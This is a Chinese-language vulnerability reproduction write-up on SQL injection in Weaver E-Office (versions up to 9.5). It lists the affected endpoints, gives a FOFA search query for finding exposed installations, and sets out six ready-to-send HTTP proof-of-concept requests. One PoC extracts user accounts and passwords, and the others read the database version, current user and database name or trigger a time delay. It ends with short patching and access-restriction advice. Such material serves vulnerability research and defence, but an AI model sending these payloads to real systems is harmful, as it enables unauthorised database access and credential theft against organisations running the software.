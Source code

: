 
# 泛微 E-Office SQL 注入漏洞复现

### 0x01 产品简介

    [泛微](https://so.csdn.net/so/search?q=%E6%B3%9B%E5%BE%AE&spm=1001.2101.3001.7020)E-Office 是一款标准化的协同 OA 办公软件，泛微协同办公产品系列成员之一，实行通用化产品设计，充分贴合企业管理需求，本着简洁易用、高效智能的原则，为企业快速打造移动化、无纸化、数字化的办公平台。

### 0x02 漏洞概述

    泛微 e-office  json\_common.php、flow\_xml.php、sms\_page.php、getUserLists、detail.php、Init.php 等接口处存在 SQL 注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

### 0x03 影响范围

e-office <=9.5

### 0x04 复现环境 

FOFA：app="泛微-EOffice"

![](assets/1701222712-b28d542d099eeb6c913fa7a595b88e3e.png)

### 0x05 漏洞复现

**PoC-1**

```http
POST /building/json_common.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

tfs=city%60+where+cityId+%3D-1+%2F%2A%2150000union%2A%2F+%2F%2A%2150000all%2A%2F+%2F%2A%2150000select%2A%2F+1%2C2%2C%28%2F%2A%2150000select%2A%2F+group_concat%28user_id%2Cuser_accounts%2Cuser_name%2Cpassword%29+from+user%29%2C4%23%7C2
```

获取用户账号密码信息

![](assets/1701222712-31d03486aa8fc2e20aa9465d99a9e64e.png)**PoC-2**

```http
GET /general/system/workflow/flow_type/flow_xml.php?SORT_ID=1+UNION+ALL+SELECT+CONCAT%280x716a717071%2C%40%40version%2C0x716a717071%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+- HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

查询数据库版本

![](assets/1701222712-1c92507ce2160223b79334a14121ea82.png)**PoC-3** 

```http
GET /E-mobile/sms_page.php?detailid=123%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,CONCAT(0x7e,user(),0x7e),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--%20- HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

查询当前用户

![](assets/1701222712-1c9681b4a71454853aa446bcf0305c97.png)**PoC-4**

```http
GET /E-mobile/App/System/UserSelect/index.php?m=getUserLists&privId=1+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,(concat(database()))-- HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

查询当前数据库

![](assets/1701222712-2f1f0b968788badbf198e5ae6f1259ec.png)**PoC-5** 

```http
POST /general/crm/linkman/query/detail.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Cookie: PHPSESSID=eff067b73c42eed28e55fd037563593a; LOGIN_LANG=cn; expires=Tue, 22-Apr-2025 14:54:24 GMT
Accept-Encoding: gzip

linkman_id=1%20AND%20%28SELECT%205830%20FROM%20%28SELECT%28SLEEP%285%29%29%29mDdD%29
```

延时 5 秒

![](assets/1701222712-97fbc09fc901568de12e586465c12c53.png)**PoC-6**

```http
POST /E-mobile/App/Init.php?m=getSelectList_Crm HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

cc_parent_id=-999+%2F%2A%2150000union%2A%2F+%2F%2A%2150000all%2A%2F+%2F%2A%2150000select%2A%2F+1%2C%28%2F%2A%2150000select%2A%2F+user%28%29%29%23
```

查询当前用户 

![](assets/1701222712-891385f713182d7aab84b69eac5a2b4f.png)

### 0x06 修复建议

厂商已发布了漏洞修复程序，请及时关注更新：https://www.e-office.cn/

临时修复方案：

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
